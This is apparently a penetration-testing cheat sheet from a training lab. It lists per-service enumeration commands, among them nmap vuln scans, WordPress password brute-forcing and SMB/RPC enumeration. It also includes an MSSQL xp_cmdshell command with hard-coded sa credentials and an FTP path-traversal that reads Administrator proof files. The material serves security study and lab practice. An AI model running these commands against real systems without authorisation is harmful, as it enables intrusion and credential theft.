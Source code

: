 ## Scan

### NMAP
```
nmap -A -Pn -n --top-ports 10000 -vvv -oN 192.168.27.68
nmap -sV -T5 -F -A 10.11.1.5 --open --script vuln
nmap -A -Pn -sC 10.11.1.8
nmap 10.11.1.31 -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=poiuytrewq,mssql.instance-name=MSSQLSERVER,ms-sql-xp-cmdshell.cmd='type C:\"Documents and Settings"\Administrator\Desktop\proof.txt'
nmap 10.11.1.125 --script ftp*
nmap -oN nmap2.txt -v -sU -sS -p- -A -T4 $ip
```
### NIKTO
```
nikto -h 10.10.10.10:8000
```

### DIRBUSTER
```
dirb http://10.11.1.31
```



### FTP - 21
```
anonymous:anonymous
cd "Documents and Settings"
get servers.py

ls ../../../../../../../../../../../Docume~1/Administrateur/Bureau/
get
(remote-file) ../../../../../../../../../../../Docume~1/Administrateur/Bureau/proof.txt
(local-file) /root/Desktop/10.11.1.125.txt
```

### DNS - 53

```
dig a domain-name-here.com @nameserver
dig axfr domain-name-here.com @nameserver
dnsenum zonetransfer.me
```

### WORDPRESS - 80, 443 etc.

```
wpscan -u "http://10.11.1.234" --wordlist /usr/share/wordlists/rockyou.txt --username admin
```

### NFC - 111

Show Mountable NFS Shares
```
nmap -sV --script=nfs-showmount $ip
```

### RPC - 135, 389

```
rpcclient --user="" --command=enumprivs -N $ip
```

### SMB - 445
```
enum4linux 10.11.1.8
smbclient //10.11.1.128/wwwroot
smbclient -L 10.11.1.128
```
